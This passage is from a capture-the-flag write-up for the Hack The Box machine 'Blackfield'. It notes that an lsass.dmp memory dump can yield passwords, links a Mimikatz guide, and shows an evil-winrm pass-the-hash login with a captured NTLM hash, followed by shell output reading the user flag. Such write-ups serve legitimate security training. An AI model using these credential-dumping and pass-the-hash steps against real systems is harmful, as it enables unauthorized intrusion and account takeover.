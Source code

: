 It contains `lsass.dmp` file, it is dump file.

We can extract password from it

> [https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-blackfield/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-blackfield/Untitled%201.png)

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_backup> cd Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir

    Directory: C:\Users\svc_backup\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/9/2020   5:39 PM             34 user.txt

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
b5------------------------------0a6
```
